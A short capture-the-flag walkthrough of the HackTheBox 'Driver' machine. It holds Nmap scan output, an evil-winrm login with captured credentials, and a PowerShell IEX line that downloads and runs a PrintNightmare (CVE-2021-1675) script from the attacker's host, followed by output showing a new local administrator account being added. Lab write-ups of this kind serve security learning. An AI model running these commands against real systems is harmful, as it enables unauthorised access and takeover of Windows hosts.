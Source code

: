 ![image](HackThebox/Boxes/Easy/PWND/Driver.png)

#Masscan - Nmap 
```
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h14m09s, deviation: 0s, median: 7h14m09s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-12T06:28:40
|_  start_date: 2021-10-11T22:46:25


SMB RELAY ATTACK
```

# Enumeration

using evil-winrm -i 10.10.11.106 -u tony -p liltony 

we got a shell as tony 
using upload /opt/<path2linumWin>
we noticed print spoolesv running 

so we can do print nightmare. 
/opt/windows/<printnightmare.

cd into printnightmare dir and set up a python server on any port. 
python3 -m http.server 8998

while you are loged into evil-winrm 

using this download method will inport the module atomatically, i tried to add it on my own and it gave scripts error. 


IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.2:8998/CVE-2021-1675.ps1')

once you download the file..

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> Invoke-Nightmare -NewUser "AnonHack3r" -NewPassword "PwndByAnonHack3r"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user AnonHack3r as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> net user

# PrivEsc
  
  use evil winrm and log into AnonHack3r account 

  net user Anonhack3r 

  you are Admin. 

  
